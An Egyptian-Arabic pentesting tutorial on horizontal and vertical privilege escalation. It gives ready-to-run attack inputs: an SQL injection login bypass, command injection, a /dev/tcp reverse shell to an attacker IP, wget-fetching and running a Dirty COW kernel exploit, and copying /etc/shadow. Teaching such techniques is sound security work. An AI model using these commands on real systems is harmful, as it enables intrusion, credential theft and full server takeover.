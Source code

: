 # **1. Horizontal Privilege Escalation (التصعيد الأفقي)**

## **الشرح العميق:**
التصعيد الأفقي بيحصل لما تكون داخل نظام أو تطبيق كمستخدم عادي (low privilege user) وتقدر توصل لصلاحيات أو بيانات مستخدم عادي تاني على نفس المستوى بتاعك بدون ما تطلع لمستوى أعلى زي الأدمن. الهدف هنا مش التحكم الكامل في النظام، لكن الوصول لموارد أو حسابات المفروض ماتكونش تحت إيدك. في الويب، ده بيحصل كتير بسبب ثغرات زي ضعف التحقق من الهوية (Broken Access Control) أو سوء تصميم الـ Session Management.

## **الأدوات والأوامر العملية:**

### 1. **تجربة Parameter Tampering:**
   - لو موقع فيه رابط زي: `http://example.com/profile?user_id=123`
   - عدّل الـ `user_id` لـ `124` أو `1`:
     - `http://example.com/profile?user_id=124`
   - لو فتح حساب مستخدم تاني (زي حساب زميلك)، يبقى ده تصعيد أفقي.
   - أداة: Burp Suite (Intercept الطلب وعدّل الـ Parameter).

### 2. **Cookie Manipulation:**
   - لو الموقع بيعتمد على كوكيز:
     - افتح المتصفح، اضغط F12، روح لـ Application -> Cookies.
     - لو لقيت حاجة زي `session=abc123`، جرب كوكيز حد تاني (لو عندك طريقة تجيبها).
     - أمر في Burp: غيّر الـ Cookie في الـ Request وشوف النتيجة.

### 3. **SQL Injection للوصول لحسابات:**
   - لو فيه Login Page، جرب:
     - Username: `admin' OR user_id=2 --`
     - Password: أي حاجة.
   - لو دخلت على حساب مستخدم تاني مش الأدمن، ده أفقي.

### 4. **مثال يدوي:**
   - لو موقع بيسمح تحميل ملفات، ارفع ملف PHP بسيط:
     - `<?php echo file_get_contents('/home/user2/data.txt'); ?>`
   - لو شفت بيانات مستخدم تاني، ده تصعيد أفقي.

## **خلاصة بالعامية المصرية:**
"يعني أنت جوا البيت كضيف، ومش هتبقى صاحب البيت، بس قدرت تفتح دولاب الضيف التاني وتشوف هدومه أو تاخد حاجته. زي ما تكون بتتنطط بين الجيران من غير ما تبقى الباشا بتاع العمارة!"

---

# **2. Vertical Privilege Escalation (التصعيد العمودي)**

## **الشرح العميق:**
التصعيد العمودي بيحصل لما تكون مستخدم عادي وتطلع لمستوى أعلى زي الأدمن أو root على النظام كله. هنا الهدف هو التحكم الكامل، مش بس التنقل بين المستخدمين. في الويب، ده بيحصل من ثغرات زي Command Injection، سوء إعدادات السيرفر، أو استغلال برامج قديمة (outdated software). لما توصل للمستوى ده، تقدر تعمل أي حاجة: تشغل أوامر، تسرق بيانات، أو تدمر النظام.

## **الأدوات والأوامر العملية:**
### 1. **Command Injection:**
   - لو موقع فيه حقل بياخد إدخال زي `http://example.com/ping?ip=127.0.0.1`:
     - جرب: `http://example.com/ping?ip=127.0.0.1; id`
     - لو رجعلك `uid=33(www-data)`، حاول تصعد:
     - `http://example.com/ping?ip=127.0.0.1; sudo -l`
   - لو نجحت، جرب أمر زي `sudo /bin/bash`.

### 2. **LFI (Local File Inclusion):**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
   - لو نجح، حاول تشغل أوامر:
     - `http://example.com?page=/proc/self/environ` (شوف متغيرات النظام).
   - لو لقيت طريقة تحقن shell، تصعد لـ root.

### 3. **Metasploit للتصعيد:**
   - افتح: `msfconsole`
   - لو لقيت ثغرة في خدمة زي Apache:
     - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
     - `set RHOST 192.168.1.10`
     - `exploit`
   - لو نجحت، هتاخد shell، شغل `id`، وبعدها ابحث عن تصعيد.

### 4. **Kernel Exploits:**
   - لو وصلت لـ shell كـ www-data:
     - `uname -r` (مثلاً 2.6.32).
     - `searchsploit linux kernel 2.6.32`
     - نزل السكربت (مثل dirtycow)، ارفعه على السيرفر، وشغله:
       - `./dirtycow`
     - لو نجح، هتبقى root.

## **خلاصة بالعامية المصرية:**
"يعني أنت كنت ضيف في البيت، بس لقيت السلم السري وطلعت لأوضة صاحب البيت، وخدت مفتاح العمارة كلها! هنا أنت مش بتلعب مع الجيران، أنت بقيت الباشا بتاع كل حاجة!"

---

# **3. الفرق العملي والتأثير**
## - **Horizontal:**
  - التأثير: محدود، بتوصل لبيانات مستخدمين تانيين، لكن مش بتتحكم في النظام.
  - الخطر: سرقة بيانات، انتحال شخصية، أو جمع معلومات لخطوة أكبر.
## - **Vertical:**
  - التأثير: كبير جدًا، بتاخد السيطرة الكاملة على السيرفر أو الموقع.
  - الخطر: تدمير النظام، تسريب كل البيانات، أو زرع أكواد ضارة.

## **خلاصة بالعامية المصرية:**
"الأفقي زي ما تكون بتلف في الدور الأول بين الأوض، بس العمودي يعني طلعت للسطح ومسكت العمارة كلها بإيدك! الفرق إن الأول بتلعب في الصغير، والتاني بتبقى الكبير بجد."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

## **الخطوة 2: اختبار التصعيد الأفقي**
- جرب Parameter Tampering:
  - `http://192.168.1.10/profile?user_id=123`
  - عدلها لـ: `http://192.168.1.10/profile?user_id=124`
  - لو فتحت حساب مستخدم تاني، سجل البيانات (زي الإيميل أو كلمة السر).
- جرب SQL Injection:
  - في Login Page: Username: `user' OR user_id=2 --`
  - لو دخلت حساب مستخدم تاني، ده أفقي.

## **الخطوة 3: اختبار التصعيد العمودي**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `www-data`، جرب:
    - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`
  - على جهازك: `nc -lvnp 4444` (هتاخد shell).
- لو وصلت لـ shell:
  - `id` (مثلاً www-data).
  - `sudo -l` (لو لقيت أوامر زي `sudo /bin/bash`، شغلها).

## **الخطوة 4: تصعيد عمودي كامل**
- لو ما لقيتش sudo:
  - `uname -r` (مثلاً 2.6.32).
  - `searchsploit linux kernel 2.6.32`
  - نزل exploit (زي dirtycow)، ارفعه:
    - `wget http://192.168.1.100/dirtycow.c -O /tmp/dc.c`
    - `gcc /tmp/dc.c -o /tmp/dc`
    - `./tmp/dc`
  - لو نجح، `id` هيرجعلك `uid=0(root)`.

## **الخطوة 5: استغلال وتوثيق**
- الأفقي: استخدم البيانات اللي جمعتها (زي كلمات سر) لتجرب حسابات تانية.
- العمودي: لو وصلت root، سجل كل حاجة، وخد نسخة من الملفات الحساسة (زي `/etc/shadow`).
- رجّع تقرير للعميل بكل اللي عملته.

## **خلاصة بالعامية المصرية:**
"الأفقي زي ما تكون بتسرق شنطة جارك، والعمودي زي ما تكون خدت مفتاح العمارة كلها! في الـ Pentesting، ابدأ بالأفقي عشان تجمع معلومات، وبعدها اطلع عمودي عشان تبقى الكبير!"

---

# **الخلاصة النهائية:**
التصعيد الأفقي بيديك وصول لنفس المستوى (زي مستخدمين تانيين)، والعمودي بيخليك تسيطر على النظام كله (زي root). بالأدوات زي Burp، Nmap، وMetasploit، تقدر تكتشف الثغرات وتستغلها. ابدأ بالأفقي عشان تجمع بيانات، وبعدها اركب العمودي عشان تبقى البطل بتاع اللعبة!